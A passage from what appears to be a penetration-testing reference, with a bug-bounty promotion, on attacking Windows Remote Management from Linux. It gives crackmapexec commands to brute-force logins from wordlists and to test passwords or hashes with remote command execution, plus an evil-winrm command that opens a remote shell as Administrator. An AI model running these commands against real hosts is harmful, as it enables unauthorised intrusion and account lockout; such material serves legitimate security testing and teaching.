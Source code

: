 

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

**[Follow HackenProof](bit.ly/3xrrDrL) to learn more about web3 bugs**

🐞 Read web3 bug tutorials

🔔 Get notified about new bug bounties

💬 Participate in community discussions




## WinRM connection in linux

### Brute Force

Be careful, brute-forcing winrm could block users.

```ruby
#Brute force
crackmapexec winrm <IP> -d <Domain Name> -u usernames.txt -p passwords.txt

#Just check a pair of credentials
# Username + Password + CMD command execution
crackmapexec winrm <IP> -d <Domain Name> -u <username> -p <password> -x "whoami"
# Username + Hash + PS command execution
crackmapexec winrm <IP> -d <Domain Name> -u <username> -H <HASH> -X '$PSVersionTable'
#Crackmapexec won't give you an interactive shell, but it will check if the creds are valid to access winrm
```

### Using evil-winrm

```ruby
gem install evil-winrm
```

Read **documentation** on its github: [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

```ruby
evil-winrm -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'  -i <IP>/<Domain>
```
